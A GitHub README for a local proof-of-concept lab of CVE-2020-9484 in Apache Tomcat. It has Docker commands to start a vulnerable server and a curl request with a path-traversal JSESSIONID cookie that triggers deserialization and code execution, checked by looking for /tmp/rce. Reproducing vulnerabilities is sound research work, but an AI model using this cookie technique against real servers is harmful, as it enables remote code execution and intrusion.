 # CVE-2020-9484 (Tomcat)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/masahiro331/CVE-2020-9484.git
$ cd CVE-2020-9484
$ docker build -t tomcat:groovy .
$ docker run -d -p 8080:8080 tomcat:groovy
```

## Exploit
```
$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'
```

## Check
```
$ docker exec -it $CONTAINER /bin/sh
$ ls /tmp/rce
```
